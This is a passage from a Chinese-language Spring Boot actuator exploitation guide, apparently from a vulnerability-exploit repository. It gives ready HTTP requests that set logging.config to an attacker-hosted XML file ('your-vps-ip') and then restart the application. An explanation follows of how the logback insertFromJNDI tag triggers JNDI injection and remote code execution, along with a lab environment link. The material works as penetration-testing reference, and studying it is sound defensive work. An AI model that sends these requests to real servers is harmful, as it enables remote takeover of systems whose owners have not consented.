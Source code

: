spring 2.x

```
POST /actuator/env
Content-Type: application/json

{"name":"logging.config","value":"http://your-vps-ip/example.xml"}
```



##### 步骤四：重启应用

spring 1.x

```
POST /restart
Content-Type: application/x-www-form-urlencoded

```

spring 2.x

```
POST /actuator/restart
Content-Type: application/json

```



#### 漏洞原理：

1. 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址
2. restart 重启应用后，程序会请求 URL 地址获得恶意 xml 文件内容
3. 目标机器使用 saxParser.parse 解析 xml 文件 (这里导致了 xxe 漏洞)
4. xml 文件中利用 `logback` 依赖的 `insertFormJNDI` 标签，设置了外部 JNDI 服务器地址
5. 目标机器请求恶意  JNDI 服务器，导致 JNDI 注入，造成 RCE 漏洞



#### 漏洞分析：

​	[spring boot actuator rce via jolokia](https://xz.aliyun.com/t/4258)

​	https://landgrey.me/blog/21/



#### 漏洞环境：

[repository/springboot-restart-rce](https://github.com/LandGrey/SpringBootVulExploit/tree/master/repository/springboot-restart-rce)

正常访问：

```
http://127.0.0.1:9098/actuator/env
```



### 0x0A：restart logging.config groovy RCE
